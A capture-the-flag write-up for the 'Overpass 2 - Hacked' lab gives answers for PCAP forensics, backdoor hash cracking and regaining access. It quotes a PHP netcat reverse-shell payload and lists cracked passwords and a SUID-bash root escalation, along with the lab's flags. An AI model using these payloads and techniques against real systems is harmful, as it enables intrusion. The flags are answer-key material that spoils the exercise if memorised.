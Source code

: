 # Overpass 2 - Hacked

---

## Task 1 - Forensics - Analyse the PCAP

> What was the URL of the page they used to upload a reverse shell?

`/development/`

> What payload did the attacker use to gain access?

`<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>`

> What password did the attacker use to privesc?

`whenevernoteartinstant`

PoC:

`tcp.stream eq 3`
`no : 91`

> How did the attacker establish persistence?

`https://github.com/NinjaJc01/ssh-backdoor`

PoC:

`tcp.stream eq 3`
`no : 91`

> Using the fasttrack wordlist, how many of the system passwords were crackable?

`4`

```
1qaz2wsx         (muirland)
abcd123          (szymex)
secret12         (bee)
whenevernoteartinstant	(james)
```
## Task 2 - Research - Analyse the code

> What's the default hash for the backdoor?

`bdd04d9bb7621687f5df9001f5098eb22bf19eac4c2c30b6f23efed4d24807277d0f8bfccb9e77659103d78c56e66d2d7d8391dfc885d0e9b68acd01fc2170e3`

`https://github.com/NinjaJc01/ssh-backdoor/blob/master/main.go`

> What's the hardcoded salt for the backdoor?

`1c362db832f3f864c8c2fe05f2002a05`

PoC:

`https://github.com/NinjaJc01/ssh-backdoor/blob/master/main.go`

> What was the hash that the attacker used?

`6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed`

> Crack the hash using rockyou and a cracking tool of your choice. What's the password?

`november16`

PoC:

`password$salt`

`6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed$1c362db832f3f864c8c2fe05f2002a05`

`echo "6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed$1c362db832f3f864c8c2fe05f2002a05" > hash`

`john hash --format='dynamic=sha512($p.$s)' --wordlist=/usr/share/wordlists/rockyou.txt`

## Task 3 - Attack - Get back in!

IP = `10.10.253.229`

> The attacker defaced the website. What message did they leave as a heading?

`H4ck3d by CooctusClan`

> Using the information you've found previously, hack your way back in!

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
2222/tcp open  ssh     OpenSSH 8.2p1 Debian 4 (protocol 2.0)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

`ssh james@10.10.253.229 -p 2222 -oHostKeyAlgorithms=+ssh-rsa`

`james:november16`

> What's the user flag?

`thm{d119b4fa8c497ddb0525f7ad200e6567}`

> What's the root flag?

`thm{d53b2684f169360bb9606c333873144d}`

```
james@overpass-production:/home/james$ ls -la
total 1136
--SNIP--
-rwsr-sr-x 1 root  root  1113504 Jul 22  2020 .suid_bash
--SNIP--
james@overpass-production:/home/james$

```

`./.suid_bash -p`

```
james@overpass-production:/home/james$ ./.suid_bash -p
.suid_bash-4.4#
```